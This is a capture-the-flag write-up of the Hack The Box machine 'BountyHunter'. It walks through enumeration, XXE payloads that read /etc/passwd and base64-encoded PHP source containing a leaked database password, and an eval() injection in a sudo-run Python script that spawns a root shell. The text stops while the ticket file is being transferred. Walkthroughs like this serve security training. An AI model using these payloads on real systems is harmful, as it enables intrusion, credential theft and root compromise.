# BountyHunter Write-up (English Version)

This is my write-up about **BountyHunter** which is an active Linux box on **Hack The Box** having the IP Address `10.10.11.100`.<br>
I really had fun completing this box and as you will see further on, it covers one of the **OWASP** top 10 vulnerability.<br><br>



## Target Enumeration

---

First of all, my first step to tackle this box was to do an initial Nmap scan in order to reveal all services running on it.<br>
I personally often run the `nmap -sSVC -p- [IP_ADDRESS] -oA [OUTPUT_FILE] ` command on Nmap as my initial step.<br>
I will go over and briefly explain what these different switchs among the command does.<br>
Take note that `-sSVC` is a shortcut for these following switchs `-sS -sC -sV`.<br>

- -sS : Stands for 'Syn Scan', which is basically less noisy than a full `TCP connect()` scan. The advantage of this scan is that it doesn't fully connect to the target, which can be useful to avoid having our IP address logged onto a specific service. <br>Running Nmap with this flag will require us to run the command as root.

- -sV : Stands for 'Service Scan'. It is basically fetching the banner of the service on the open port in order to get more information about the service running on it.

- -sC : Is the equivalent of -script=default, which runs the default NSE script from Nmap on our target.

- -p- : Tells Nmap to scan all 65,535 ports on the target machine.

- -oA : Specifies that Nmap should write all of its output in 3 different formats: XML, Grepable and Nmap output type

So now that we know those details, let's run `sudo nmap -sSVC -p- 10.10.11.100 -oA nmap/nmap_scan.log` on the target machine. <br>

### Nmap Initial Scan

```
└─$ sudo nmap -sSVC -p- 10.10.11.100 -oA nmap/nmap_scan.log
[sudo] password for op:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 03:33 EDT
Nmap scan report for 10.10.11.100
Host is up (0.091s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 177.41 seconds

```

As we can see from the output above, Nmap has only found 2 open TCP ports on our target:

- Port 22 : Running OpenSSH 8.2p1 Ubuntu
- Port 80 : Running Apache httpd 2.4.41 ((Ubuntu))

<br> After that I decided to run another scan from Nmap which is used to find some common vulnerabilities on the
services running on the target machine.<br>

### Nmap Vuln Scan

```
└─$ sudo nmap -script vuln -p 22,80 10.10.11.100 -oA nmap/nmap_vuln_scan.log                                   255 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 03:37 EDT
Nmap scan report for 10.10.11.100
Host is up (0.091s latency).
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-fileupload-exploiter:
|
|     Couldn't find a file-type field.
|
|     Couldn't find a file-type field.
|
|_    Couldn't find a file-type field.
|_http-internal-ip-disclosure: ERROR: Script execution failed (use -d to debug)
| http-sql-injection:
|   Possible sqli for queries:
|     http://10.10.11.100:80/resources/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=N%3bO%3dD%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=S%3bO%3dD%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=N%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=D%3bO%3dD%27%20OR%20sqlspider
|_    http://10.10.11.100:80/resources/?C=N%3bO%3dA%27%20OR%20sqlspider
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 140.89 seconds

```

From the vulnerability scan above, Nmap retrieved nothing of interest, so I then decided to do <br>
some directory _fuzzing_ with **FFUF**

### FFUF directory fuzzing

```
└─$ ffuf -u http://10.10.11.100/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -t 100 -mc 200,403 -e .txt,.php

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.100/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .txt .php
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,403
________________________________________________

index.php               [Status: 200, Size: 25169, Words: 10028, Lines: 389]
portal.php              [Status: 200, Size: 125, Words: 11, Lines: 6]
db.php                  [Status: 200, Size: 0, Words: 1, Lines: 1]
.php                    [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 25169, Words: 10028, Lines: 389]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
:: Progress: [661638/661638] :: Job [1/1] :: 756 req/sec :: Duration: [0:10:13] :: Errors: 0 ::
```

## Browsing the Web site

---

From our **FFUF** output there were 2 files that caught my interest:

- db.php
- portal.php

So I decided to visit `db.php` first, to see if we could retrieve credentials or other juicy details.<br><br>



Well, it seems like we got a blank page here, even in our browser inspector there are no elements showing in the `body` or `head` tags.<br>
After that I decided to check the other interesting file, `portal.php`.<br><br>



On that page, the only thing we got is a link redirecting us to `log_submit.php`, which our **FFUF** enumeration didn't pick up.<br>
So I then followed the link and was welcomed with this.<br><br>

 <br>

It appears to be a report form for a Bug bounty program in which we can send some info about vulnerability found. <br>
The interesting part here was the `bountylog.js` file that was loaded on the page. <br>

By analyzing it we can see that once a user is pressing the `Submit` button on the form,<br>
a **POST** request is made to `tracker_diRbPr00f314.php`. <br>

Also, by looking a bit further in the **Javascript** code, we could see that the site was sending the user input in an XML payload.<br>
When I see an XML payload being sent to a server, the first thing that comes to my mind is `XXE (XML External Entity) injections`.<br>

## XXE Injection: Exploitation of /tracker_diRbPr00f314.php

---

So I decided to play with XXE injection, looked to me like it could be our door to get on the server.<br>
I then started `Burp Suite` and set it as my local proxy server to intercept the request. <br>

I then sent a test payload to analyze it in `Burp_suite`<br><br>

 <br>

 <br>

Once in `Burp Suite`, I pressed `CTRL + R` on my keyboard to send the request in the `Repeater` tab, where we can do more manual testing. <br><br>

 <br>

We can see that our payload is in the `data` field of the request body and is encoded.<br>
By highlighting it with our cursor, `Burp Suite` will try to decode it on the right panel.<br><br>
Once decoded, we can see the exact payload that will be interpreted by the XML parser on the server:

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
	<bugreport>
		<title>t</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```

From there, I decided to manipulate the payload in order to do some XXE injection on it before sending it to the server.<br>

The first thing I tried was to check if the **PHP** `expect` module was enabled, if it was the case, <br>
an attacker could easily do RCE (Remote Code Execution) on the Web server.<br>

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```

But it seemed that the module wasn't enabled, that is a good thing for the web server in fact.<br>
After that, I decided to test with the `file` module if we could exfiltrate some data from the server with the following payload :<br>

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [
   <!ENTITY xxe SYSTEM "file://etc/passwd" >]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```

And as you can see in the screenshot under, we have successfully exfiltrated the `/etc/passwd` file from the server,<br>
giving us some possible username to use to login through the SSH server. <br><br>

 <br>

From the file we recovered, we see that we got 2 users who might have SSH access:

```
root:x:0:0:root:/root:/bin/bash
development:x:1000:1000:Development:/home/development:/bin/bash
```

Next, I was fiddling around and tried many other files which haven't given me anything interesting.<br>
At some point, I remembered about the `db.php` file which gave us a blank page when we visited it onto our browser.<br>

I was sure there was some **PHP** code in there that our browser just could not interpret, so I used the `PHP` module<br>
with its built-in filters in order to encode the file in base64 before it gets rendered by the browser.<br>
This way would allow us to see the data before **PHP** interprets it and sends it to our browser. <br>

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=db.php" >]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```

And as shown in the screenshot below, we received some data back with the XXE Injection above.<br><br>

 <br>

I then decoded the base64 encoded file on the right panel of `Burp Suite`, which gave us the following output.<br>

```
<?php
// TODO -> Implement login system with the database
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

## Gaining Foothold onto the server with SSH

---

I then used the user found above (`development`) with the value of `dbpassword` to get a foothold on the machine with SSH.<br>
After logging in successfully, I retrieved the flag in `/home/development/user.txt` and ran `sudo -l`<br>
in order to see what command the `development` user was allowed to run with `sudo`.<br>

```
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
development@bountyhunter:~$ cd /opt/skytrain_inc
development@bountyhunter:/opt/skytrain_inc $ python3 -m http.server

```

Actually we were able to run the `ticketValidator.py` script as root without password with the version 3.8 of **Python**.<br>
From that point, if we could find a way to break that script, it would be possible to gain root privilege on the system.<br>
So I decided to transfer the script on my local machine to analyze and play with it.<br>

### Python script : ticketValidator. py

```
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))        # Here is where we might be able to gain root access
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

## Privilege escalation

---

By reading the script we can see that it is basically reading a ticket and checking its format
if it's a good or a bad ticket. The ticket must also have the `.md` extension.<br>
So the tricky part here was to craft a malicious ticket to abuse the code above.<br>

We can see that the script verifies certain elements in the ticket before evaluating some code.
The `eval()` function is basically our door to escalate our privileges to `root`.<br>

The ticket doesn't need to be a good ticket, it can't be a good ticket in fact.
We only need to satisfy the conditions before the `eval()` call in order to get there <br>
and inject our malicious payload.<br>

Here is the ticket that I crafted and tested. The `eval()` function will try to make
the sum of the numbers inside the `* *`, the thing here is that in order to get to the eval call.<br>
We need to supply a number in the first place which will succeed the check done to `if int(ticketCode) % 7 == 4:`.<br><br>
The number 32 will work perfectly in this case. It will then add 0 to 32 and will try to add `__import__('pty').spawn('/bin/bash')`
to our sum and will fail.<br>
But will still evaluate our malicious payload, which will return us a root shell.

### ticket. md

```
# Skytrain Inc
## Ticket to Y0u G0t Pwn3d Isl4nd
__Ticket Code:__
**32+0+__import__('pty').spawn('/bin/bash')**
##Issued: 2021/08/10
#End Ticket
```

The next thing to do, was to transfer our malicious ticket onto the target machine.<br>
I started a simple web server with **Python** on my local machine and used `wget` on the target machine
to upload the ticket in the `/tmp` folder.<br><br>

